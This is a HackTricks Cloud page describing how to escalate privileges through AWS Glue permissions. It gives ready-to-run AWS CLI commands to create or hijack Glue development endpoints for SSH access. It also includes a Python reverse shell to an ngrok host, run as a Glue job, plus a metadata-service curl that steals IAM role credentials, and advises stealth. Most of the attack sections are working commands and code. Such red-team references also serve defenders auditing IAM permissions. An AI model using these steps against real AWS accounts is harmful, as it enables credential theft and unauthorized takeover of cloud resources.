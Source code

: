# AWS - Glue Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with these permissions can **set up a new AWS Glue development endpoin**t, **assigning an existing service role** with specific permissions to this endpoint.

After the setup, the **attacker can SSH into the endpoint's instance**, and steal the IAM credentials of the assigned role:

```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
    --role-arn <arn-role> \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

For stealth purpose, it's recommended to use the IAM credentials from inside the Glue virtual machine.

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with this permission can **alter an existing Glue development** endpoint's SSH key, **enabling SSH access to it**. This allows the attacker to execute commands with the privileges of the endpoint's attached role:

```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

**Potential Impact:** Privesc to the glue service role used.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Users with **`iam:PassRole`** combined with either **`glue:CreateJob` or `glue:UpdateJob`**, and either **`glue:StartJobRun` or `glue:CreateTrigger`** can **create or update an AWS Glue job**, attaching any **Glue service account**, and initiate the job's execution. The job's capabilities include running arbitrary Python code, which can be exploited to establish a reverse shell. This reverse shell can then be utilized to exfiltrate the **IAM credential**s of the role attached to the Glue job, leading to potential unauthorized access or actions based on the permissions of that role:

```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
    --name privesctest \
    --role arn:aws:iam::93424712358:role/GlueAdmin \
    --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
    --actions '[{"JobName": "privesctest"}]' --start-on-creation \
    --schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateJob`

Just with the update permission an attacked could steal the IAM Credentials of the already attached role.

**Potential Impact:** Privesc to the glue service role attached.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
